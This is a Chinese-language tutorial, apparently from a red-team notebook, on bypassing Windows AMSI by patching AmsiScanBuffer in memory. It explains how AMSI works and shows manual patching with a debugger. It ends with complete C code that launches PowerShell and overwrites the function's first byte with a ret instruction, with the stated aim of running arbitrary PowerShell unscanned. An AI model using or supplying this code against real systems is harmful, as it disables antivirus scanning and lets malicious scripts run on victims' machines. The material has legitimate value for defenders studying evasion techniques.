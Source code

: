 # 基于内存补丁的AMSI绕过

## AMSI简介

AMSI的全称是反恶意软件扫描接口（Anti-Malware Scan Interface），是从Windows 10开始引入的一种机制。AMSI是应用程序和服务能够使用的一种接口，程序和服务可以将“数据”发送到安装在系统上的反恶意软件服务（如Windows Defender）。

服务和应用程序可以通过AMSI来与系统中已安装的反恶意软件通信。为了完成该任务，AMSI采用了hook方法。比如，AMSI会hook WSH（Windows Scripting Host）及PowerShell来去混淆并分析正在执行的代码内容。这些内容会被“捕获”，并在执行之前发送给反恶意软件解决方案。

在Windows 10上，实现AMSI的所有组件如下所示：

* UAC（用户账户控制），安装EXE、COM、MSI或者ActiveX时提升权限
* PowerShell（脚本、交互式使用以及动态代码执行）
* Windows Script Host（`wscript.exe`或者`cscript.exe`）
* JavaScript以及VBScript
* Office VBA宏

AMSI整体架构如下图所示：

![](../.gitbook/assets/image%20%2829%29.png)

简单的说AMSI就是这玩意:

![](../.gitbook/assets/image%20%2862%29.png)

## 技术原理&流程

根据前人的研究，我们知道字符串是否敏感是由amsi.dll中的AmsiScanBuffer函数来进行判断的，而内存补丁是一种较为便捷的技术，我们可以对这个函数进行修补，使其丧失判断能力，这样我们就能自由执行任意powershell脚本，当然前提是脚本文件没有被杀软干掉。

实现方式有很多种，如注入一个内存修补功能的dll、获取amsiscanbuffer函数地址使用winapi进行修补。

这里我们使用获取函数地址对其进行修补，流程如下：

1. 创建一个powershell进程
2. 获取amsiscanbuffer函数地址
3. 修改函数内存空间属性
4. 修补函数执行体

前面文章有阐述过目前windows不同进程加载同一个系统模块的地址是一致的，所以我们可以使用本地加载dll获取对应函数地址去修补其他进程的该函数。

> 根据微软官方文档，`AmsiScanBuffer`函数应该返回`HRESULT`类型值，这是一个整数值，用来表示操作是否成功。在我们的例子中，如果该函数成功，那么就应当返回`S_OK`（`0x00000000`），否则应该返回`HRESULT`错误代码。
>
> 这个函数的主要功能是返回需要扫描的内容是否存在问题，这也是`result`变量会作为参数传递给`AmsiScanBuffer`函数的原因所在。这个变量的类型为`AMSI_RESULT`枚举类型。
>
> 对应的枚举原型如下所示：
>
> ```text
> typedef enum AMSI_RESULT {
>     AMSI_RESULT_CLEAN,
>     AMSI_RESULT_NOT_DETECTED,
>     AMSI_RESULT_BLOCKED_BY_ADMIN_START,
>     AMSI_RESULT_BLOCKED_BY_ADMIN_END,
>     AMSI_RESULT_DETECTED
> };
> ```
>
> 在函数执行过程中，待分析的内容会被发送到反恶意软件服务，后者会返回`1`到`32762`（含）之间的一个整数。整数值越大，则代表风险越高。如果证书大于或等于`32762`，那么就会将其判断为恶意数据，加以阻止。随后系统会根据返回的整数值来更新`AMSI_RESULT`变量值。
>
> 默认情况下，该变量处于“正常”（“无害”）值状态，因此，如果我们修改了函数指令，使其永远不会将待分析的内容发送给反恶意软件服务，并且返回`S_OK` `HRESULT`结果值，那么这些内容就会被当成无害数据。
>
> 在汇编语言中，`EAX`（32位）以及`RAX`（64位）寄存器始终包含函数的返回值。因此，如果`EAX`/`RAX`寄存器值等于0，并且如果执行了`ret`汇编指令，那么该函数就会返回`S_OK` `HRSULT`，不会将待分析数据发送给反恶意软件服务。

事实上对于字符串的拦截工作是在AmsiScanBuffer函数内完成的,并非在AmsiScanBuffer返回后由其他函数拦截，这也解释了为什么我们直接ret也能绕过AMSI\(此时RAX内存放着AmsiScanBuffer的地址，无论如何也远大于32762\)。

## 手工操作

创建一个powershell进程

![](../.gitbook/assets/image%20%2864%29.png)

调试器附加并定位AmsiScanBuffer函数

![](../.gitbook/assets/image%20%2812%29.png)

修补该函数使其直接返回\(具体细节大家可以使用ida和x64dbg跟一下\)。

![](../.gitbook/assets/image%20%2861%29.png)

![](../.gitbook/assets/image%20%2858%29.png)

绕过AMSI。

![](../.gitbook/assets/image%20%2842%29.png)

## 代码实现

由于powershell版的内存补丁绕过在互联网上导出都是，这里就补贴出来了\(好吧其实是我烂\)，这里我们其实也有多种实现思路，可以查找运行中的powershell.exe进程来进行修补，也可以自己创建一个新的powershell进程进行修补，这里采用新创建的powershell进行修补。

```text
#include <Windows.h>
#include <stdio.h>

int main() {
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);

	CreateProcessA(NULL, (LPSTR)"powershell -NoExit dir", NULL, NULL, NULL, NULL, NULL, NULL, &si, &pi);

	HMODULE hAmsi = LoadLibraryA("amsi.dll");
	LPVOID pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");

	Sleep(500);

	DWORD oldProtect;
	char patch = 0xc3;

	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
	WriteProcessMemory(pi.hProcess, (LPVOID)pAmsiScanBuffer, &patch, sizeof(char),NULL);
	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, oldProtect, NULL);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	FreeLibrary(hAmsi);
	return 0;
}
```

## LINKS

{% embed url="https://www.contextis.com/en/blog/amsi-bypass" %}

{% embed url="https://www.anquanke.com/post/id/168210" %}

{% embed url="https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html" %}

{% embed url="https://www.anquanke.com/post/id/180281" %}




